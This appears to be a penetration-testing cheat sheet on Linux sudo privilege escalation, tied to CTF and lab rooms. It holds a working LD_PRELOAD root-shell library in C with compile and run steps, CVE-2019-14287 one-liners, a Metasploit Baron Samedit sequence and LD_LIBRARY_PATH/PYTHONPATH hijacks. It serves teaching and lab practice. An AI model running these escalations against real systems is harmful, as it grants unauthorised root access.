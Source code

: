 # sudo privilege escalation

*An excellent reference to exploit sudo: [SUDO_KILLER](https://github.com/TH3xACE/SUDO_KILLER) <small>(2.1k ⭐)</small>. List sudoers with `getent group sudo`.*

[![linprivesc](../../../../_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linuxprivesc](../../../../_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)
[![commonlinuxprivesc](../../../../_badges/thmp/commonlinuxprivesc.svg)](https://tryhackme.com/room/commonlinuxprivesc)
[![linuxprivilegeescalation](../../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![picklerick](../../../../_badges/thm-p/picklerick.svg)](https://tryhackme.com/room/picklerick)
[![linprivesc](../../../../_badges/thm-p/linprivesc.svg)](https://tryhackme.com/room/linprivesc#task-12)
[![wgelctf](../../../../_badges/thm-p/wgelctf.svg)](https://tryhackme.com/room/wgelctf)
[![easyctf](../../../../_badges/thm-p/easyctf.svg)](https://tryhackme.com/room/easyctf)
[![colddboxeasy](../../../../_badges/thm-p/colddboxeasy.svg)](https://tryhackme.com/room/colddboxeasy)
[![allinonemj](../../../../_badges/thm-p/allinonemj.svg)](https://tryhackme.com/room/allinonemj)
[![chillhack](../../../../_badges/thm-p/chillhack.svg)](https://tryhackme.com/room/chillhack)
[![tomghost](../../../../_badges/thm-p/tomghost.svg)](https://tryhackme.com/room/tomghost)
[![ccpentesting](../../../../_badges/thm-p/ccpentesting.svg)](https://tryhackme.com/room/ccpentesting)
[![bruteit](../../../../_badges/thm-p/bruteit.svg)](https://tryhackme.com/r/room/bruteit)
[![unbakedpie](../../../../_badges/thm-p/unbakedpie.svg)](https://tryhackme.com/r/room/unbakedpie)
[![teamcw](../../../../_badges/thm-p/teamcw.svg)](https://tryhackme.com/r/room/teamcw)
[![marketplace](../../../../_badges/thm-p/marketplace.svg)](https://tryhackme.com/r/room/marketplace)
[![jason](../../../../_badges/thm-p/jason.svg)](https://tryhackme.com/r/room/jason)
[![brooklynninenine](../../../../_badges/thm-p/brooklynninenine.svg)](https://tryhackme.com/r/room/brooklynninenine)
[![h4cked](../../../../_badges/thm-p/h4cked.svg)](https://tryhackme.com/r/room/h4cked)
[![sudo_weak_configuration](../../../../_badges/rootme/app_script/sudo_weak_configuration.svg)](https://www.root-me.org/en/Challenges/App-Script/sudo-weak-configuration)
[![bash_restricted_shells](../../../../_badges/rootme/app_script/bash_restricted_shells.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-Restricted-shells)
[![shared_objects_hijacking](../../../../_badges/rootme/app_script/shared_objects_hijacking.svg)](https://www.root-me.org/en/Challenges/App-Script/Shared-Objects-hijacking)
![nibbles](../../../../_badges/htb-p/nibbles.svg)
![getsimplecms](../../../../_badges/htb-p/getsimplecms.svg)
[![devvortex](../../../../_badges/htb-p/devvortex.svg)](https://app.hackthebox.com/machines/Devvortex)
[![cozyhosting](../../../../_badges/htb-p/cozyhosting.svg)](https://app.hackthebox.com/machines/CozyHosting)
[![knife](../../../../_badges/htb-p/knife.svg)](https://app.hackthebox.com/machines/Knife)
[![broker](../../../../_badges/htb-p/broker.svg)](https://app.hackthebox.com/machines/Broker)
[![busqueda](../../../../_badges/htb-p/busqueda.svg)](https://app.hackthebox.com/machines/Busqueda)
[![shocker](../../../../_badges/htb-p/shocker.svg)](https://app.hackthebox.com/machines/Shocker)
[![blocky](../../../../_badges/htb-p/blocky.svg)](https://app.hackthebox.com/machines/Blocky)
[![mirai](../../../../_badges/htb-p/mirai.svg)](https://app.hackthebox.com/machines/Mirai)

<div class="row row-cols-lg-2"><div>

If you have [administrative privileges](/operating-systems/linux/_knowledge/index.md#sudo), you can list them with:

```ps
$ sudo -nl # without a password
$ sudo -l # with a password
```

The first section is about settings and environment variables that may be exploited such as [LD_PRELOAD](#ld_preload).

```text!
Matching Defaults entries for [...]:
    [...] # something here
```

The second section is about your [sudoers](/operating-systems/linux/env/files/index.md#etcsudoers) rights. Such commands may be exploited to get root, search the command on [GTOBins #sudo](../tools/gtfobins.md).

```text!
User [...] may run the following commands on [...]:
    (root) /bin/tar
```

➡️ For instance, the user below can run `/bin/tar` as `root`.
</div><div>

📚 Sometimes, instead of root, we may be able to run commands as another user, such as `/opt/script.sh` as user `xxx`. Use `sudo -u xxx`.

🍀 Sometimes, patterns are used in commands/paths. In a path, it means we can use `../`. In a command, we can use any option.

```text!
User [...] may run the following commands on [...]:
    (root) NOPASSWD: /usr/bin/vim
    (ALL) NOPASSWD: /usr/bin/vim
    (xxx) NOPASSWD: /opt/*.sh
    (root) /usr/bin/ssh *
    (ALL : ALL) SETENV: NOPASSWD: /usr/bin/python3
```

☠️ If you can only execute the script and not read it, either try to see if the script use an [injectable](../utils/injection.md) parameter or try to find if the source code is available somewhere else <small>(ex: on Git)</small>.

⚠️ A configuration may contains both `env_keep` and `env_reset`.
</div></div>

<hr class="sep-both">

## LD_PRELOAD

[![linuxprivilegeescalation](../../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![linprivesc](../../../../_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linuxprivesc](../../../../_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)
[![unbakedpie](../../../../_badges/thm-p/unbakedpie.svg)](https://tryhackme.com/r/room/unbakedpie)

<div class="row row-cols-lg-2"><div>

If there is `env_keep += LD_PRELOAD` in the permissions displayed by `sudo -l` OR if there is no `env_reset`, then it means that we can set `LD_PRELOAD` and run code before executing the command.

The code below replace the gid/uid of the user running the command with `0` <small>(root)</small>. Then, it pops a bash shell <small>(as root!)</small>.

```c
//#include <stdio.h>
//#include <sys/types.h>
//#include <stdlib.h>
void _init() {
    //unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
</div><div>

Compile it with

```shell!
$ cd /tmp
$ gcc -shared -fPIC init.c -o init.so
$ gcc -shared -fPIC init.c -o init.so -nostartfiles
```

Then, call the command that you could run as administrator <small>(`tar` here)</small>, while setting the variable path to your script:

```shell!
$ sudo LD_PRELOAD=/tmp/init.so tar
```

💎 Congratulations, you are `root` now!
</div></div>

<hr class="sep-both">

## Well-known Vulnerabilities

<div class="row row-cols-lg-2"><div>

#### sudo before 1.8.28 (CVE-2019-14287)

[![agentsudoctf](../../../../_badges/thm-p/agentsudoctf.svg)](https://tryhackme.com/room/agentsudoctf)

If a user was allowed to run one specific command using sudo, such as `tar`, then it was possible for any other user to impersonate the authorized user, and run the command as root too.

```ps
$ sudo -u#-1 tar [...]
$ sudo -u#4294967295 tar [...]
```

💎 Congratulations, you are `root` now!
</div><div>

#### sudo before 1.9.5p2 (CVE-2021-3156)

[![metasploitframework](../../../../_badges/htb/metasploitframework.svg)](https://academy.hackthebox.com/course/preview/using-the-metasploit-framework)
[![linuxprivilegeescalation](../../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)

See metasploit module: `exploit/linux/local/sudo_baron_samedit`.

```shell!
msf6> use exploit/linux/local/sudo_baron_samedit
msf6> set SESSION 1
msf6> set LHOST tun0
msf6> run
```
</div></div>

<hr class="sep-both">

## Additional Notes

<div class="row row-cols-lg-2"><div>

#### doas

[![glitch](../../../../_badges/thm-p/glitch.svg)](https://tryhackme.com/r/room/glitch)

[Doas](https://wiki.debian.org/Doas) is a minimal alternative to sudo. The command is so minimal that I was not able to know why I could exploit it while there were no configuration files and I could not use my own <small>(did nothing)</small>.

```shell!
$ doas -u root bash
```

#### LD_LIBRARY_PATH

[![shared_objects_hijacking](../../../../_badges/rootme/app_script/shared_objects_hijacking.svg)](https://www.root-me.org/en/Challenges/App-Script/Shared-Objects-hijacking)

While uncommon, if the sudo configuration include `env_keep+=LD_LIBRARY_PATH`, we are able to set a custom folder for `.so`. Refer to [Shared Object Hijacking](../utils/injection.md#library-hijacking).

```shell!
$ sudo LD_LIBRARY_PATH=/path/to/xx/ [...]
```
</div><div>

#### PYTHONPATH

[![unbakedpie](../../../../_badges/thm-p/unbakedpie.svg)](https://tryhackme.com/r/room/unbakedpie)

While uncommon, if the sudo configuration include `env_keep+=PYTHONPATH`, we are able to set a custom folder for python modules. Refer to [Shared Object Hijacking](../utils/injection.md#library-hijacking).

```shell!
$ sudo PYTHONPATH=/path/to/xx/ [...]
```
</div></div>